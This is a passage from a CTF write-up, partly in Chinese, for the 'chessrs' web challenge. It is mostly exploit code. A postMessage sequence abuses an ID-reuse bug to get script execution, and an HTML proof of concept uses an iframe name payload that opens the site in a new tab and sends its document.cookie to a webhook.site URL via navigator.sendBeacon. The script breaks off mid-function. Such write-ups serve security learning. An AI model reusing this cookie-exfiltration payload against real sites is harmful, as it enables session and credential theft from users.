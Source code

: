        // Send the ready message to game.js so that
        // it will send its own init message to engine,
        // allocating its id using the engine's allocator.
        game.contentWindow.postMessage('ready', '*')

        await new Promise(res => setTimeout(res, 100))

        // Now re-init all the clients that had the UAF
        // Hopefully one of them had their UAF
        // overwritten by game.js's id.
        for (let i = 0; i < lets.length; i++) {
            engine.postMessage({
                type: 'init',
                id: lets[i]
            }, '*')
        }
    }
    ```

## Cookie

> Then, with this leak, we can send an error message to the iframe at https://chessrs.mc.ax, and get JS execution on that page! Now there's only one problem left - SameSite. Since the flag is in the admin's cookie and is set with just document.cookie, it is SameSite Lax by default, which means that the cookie isn't in the iframe. I know that one team got really tripped up by this.

题目中 `puppeteer` 默认 cookie 策略是 `SameSite Lax`，即其 iframe 中不会存在 cookie，可以直接使用 `window.open('/')` 打开新的一个标签页从而得到 flag。

```js
<iframe src="about:blank" name="navigator.sendBeacon('https://webhook.site/xxx', window.open('/').document.cookie)"></iframe>
```

完整 poc

```html
<!DOCTYPE html>
<html>
    <body>
        <iframe src="about:blank" name="navigator.sendBeacon('https://webhook.site/8816666e-3cb1-4e6a-b58a-a5d2465b5a0d', window.open('/').document.cookie)"></iframe>
        <script>
            const sleep = (ms) => new Promise(r => setTimeout(r, ms));
            
            window.frames[0].location = "http://localhost:1337";
            
            window.onmessage = async (e) => {
                if (e.data === "ready") {
                    e.source.postMessage({ id: "A".repeat(0), type: "init", data: "8/k7/8/8/8/8/K7/8 w - - 0 1" + " ".repeat(1) }, "*");
                    await sleep(250);
                    e.source.postMessage({ id: "B".repeat(13), type: "init", data: "8/k7/8/8/8/8/K7/8 w - - 0 1" + " ".repeat(34) }, "*");
                    await sleep(250);
                    window.frames[0].postMessage("ready", "*");
                    await sleep(500);
                    e.source.postMessage({ id: "B".repeat(13), type: "init" }, "*");
                    await sleep(250);
                    return;
                }
                
                
                if (e.data.type === "error") {
                    console.log(e.data.id + e.data.data);
                    const leak = /"(.*?)"/.exec(e.data.data)[1].split(" ")[0].slice(0, 16);
                    console.log(leak);
```